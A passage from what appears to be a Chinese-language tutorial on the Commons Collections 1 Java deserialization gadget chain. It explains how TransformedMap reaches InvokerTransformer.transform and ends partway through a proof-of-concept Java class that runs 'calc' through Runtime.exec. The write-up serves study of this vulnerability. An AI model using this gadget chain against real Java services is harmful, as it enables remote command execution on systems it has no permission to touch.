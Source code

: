 <div align=center><img width="1040" alt="image" src="https://user-images.githubusercontent.com/84888757/204717354-add79c93-4b70-4dea-8962-2983c886cc97.png" /></div>

我们已经找到了危险方法，那么现在应该向前找，谁调用了这个危险方法。

### 2.2 寻找 Gadget
#### 2.2.1 TransformedMap  
右键`Find Usages`，找到`LazyMap`和`TransformedMap`都调用了该危险方法。
`LazyMap`放着下次说，我们先看`TransformedMap`的，这里看到`TransformedMap`有三个方法都调用了危险方法`InvokerTransformer.transform()`:

<div align=center><img src="https://user-images.githubusercontent.com/84888757/204718086-835c8229-cea6-47b8-b9d6-2269e0d19c3e.png" /></div>

我们进入到`TransformedMap.java`中，看看这三个方法在哪里被调用，然后看到`TransformedMap.put`方法总是会调用`TransformedMap.transformKey`和`TransformedMap.transformValue`方法：

<div align=center><img src="https://user-images.githubusercontent.com/84888757/204718466-10e7d30b-150c-4742-8b35-1b41604f6186.png" /></div>

然后根据上面的`find usage`，`TransformedMap.transformKey`和`TransformedMap.transformValue`方法都会调用到`InvokerTransformer.transform()`:

<div align=center><img src="https://user-images.githubusercontent.com/84888757/204718586-9591627c-bcb1-4830-b990-e61cca5659da.png" /></div>

所以现在的思路就是，创建一个`TransformedMap`实例，然后调用一个它的`put`方法，传入`Runtime.getRuntime()`作为`key`或者`value`，然后再接连通过`TransformedMap.transformKey`或者`TransformedMap.transformValue`调用到`InvokerTransformer.transform(Runtime.getRuntime())`执行命令。

既然要创建实例，就要看一下构造方法，然后看到这个构造方法`TransformedMap.TransformedMap`是`protected`的，所以不能直接`new`一个`TransformedMap`实例，只能通过别的方法去调用它：

<div align=center><img width="852" alt="image" src="https://user-images.githubusercontent.com/84888757/204719004-c04ebcb8-10df-40e0-96ce-9a76da0261e2.png" /></div>

找到了一个静态方法`TransformedMap.decorate`调用了构造方法`TransformedMap.TransformedMap`，这里说明创建`TransformedMap`实例时，需要传入三个参数：

- `map`：一个`map`集合。
- `keyTransformer`：用于`key`转换的转换器，`null`表示没有转换。
- `valueTransformer`：用于`value`转换的转换器，`null`表示没有转换。

<div align=center><img width="867" alt="image" src="https://user-images.githubusercontent.com/84888757/204719079-ee476ac5-a279-453d-a0a2-a7fedf4f36a0.png" /></div>

把`key`或者`value`设置为`Runtime.getRuntime()`，调用链如下：
1. `tansformedMap.put(1,Runtime.getRuntime())`
2. `transformValue(Runtime.getRuntime()) `
3. `InvokerTransformer#transform()`

所以我们现在的poc如下：
```
package org.vulhub;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CC1_1 {
    public static void main(String[] args) throws Exception{
        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        exec.transform(Runtime.getRuntime());

        Map map = new HashMap();
        // 调用TransformedMap.decorate实例化TransformedMap
        Map tansformedMap = TransformedMap.decorate(map, exec, null);
//        tansformedMap.put(1,Runtime.getRuntime());
        tansformedMap.put(Runtime.getRuntime(),1);
```